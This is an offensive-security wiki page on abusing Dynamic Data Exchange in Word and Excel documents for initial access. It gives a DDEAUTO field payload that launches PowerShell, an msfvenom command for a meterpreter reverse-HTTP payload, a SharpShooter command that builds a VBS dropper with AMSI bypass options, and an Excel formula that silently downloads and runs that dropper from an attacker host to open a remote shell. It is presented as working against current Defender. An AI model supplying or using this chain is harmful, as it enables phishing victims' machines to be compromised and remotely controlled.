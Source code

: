 # ⭕ DDE Auto - Word/Excel

{% embed url="https://github.com/0xdeadbeefJERKY/Office-DDE-Payloads" %}

{% embed url="https://github.com/MartinSohn/Office-phish-templates" %}

## Intro

DDE is an old MS technology that is used to facilitate data transfer between applications. DDE sends messages between applications that share data and uses shared memory to exchange data between applications.  DDE can be embedded in several Office file formats

To leverage this attack vector:

Open a new MS document and insert a field

![](<../../.gitbook/assets/image (51).png>)

It will add an "!Unexpected End of Formula" to the document, we right-click it and "Toggle field codes" :

![](<../../.gitbook/assets/image (33) (1).png>)

We then replace the = \* MERGEFORMAT with the payload: 1 { DDEAUTO "C:\Programs\Microsoft\Office\MSWord.exe\\..\\..\\..\windows\system32\WindowsPowershell\v1.0\powershell.exe start calc # " "required"}​ Copied! If we save the document, reopen our document and accept the 2 prompts, calculator will popup.



This attack has been tested on the latest Windows10 LTSC edition with Microsoft Office 365 with up-to-date Windows Defender.

#### Requirements:

* Enabled Dynamic Data Exchange Server Lookup
* Enabled Dynamic Data Exchange Server Launch

Warning presented to the user who opens the worksheet:

![](<../../.gitbook/assets/image (2) (1).png>)

## Exploitation

generate msfvenom shellcode:

```
msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=192.168.1.108 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f raw -o raw3.txt
```

Create a malicious VBS script with SharpShooter with included raw3.txt shellcode file we generated earlier:

{% embed url="https://github.com/mdsecactivebreach/SharpShooter" %}

```
python2 SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo2 --rawscfile raw3.txt --amsi amsienable
```

And inject the command to Microsoft Excel function:

```
=cmd|'/c cmd.exe /c powershell.exe -nop -w hidden iwr -outf %tmp%\\msf.vbs http://192.168.1.108:8000/foo2.vbs & %tmp%\\msf.vbs'!'A1'
```

After the user skips the warning we get a meterpreter shell:

![](<../../.gitbook/assets/image (8).png>)

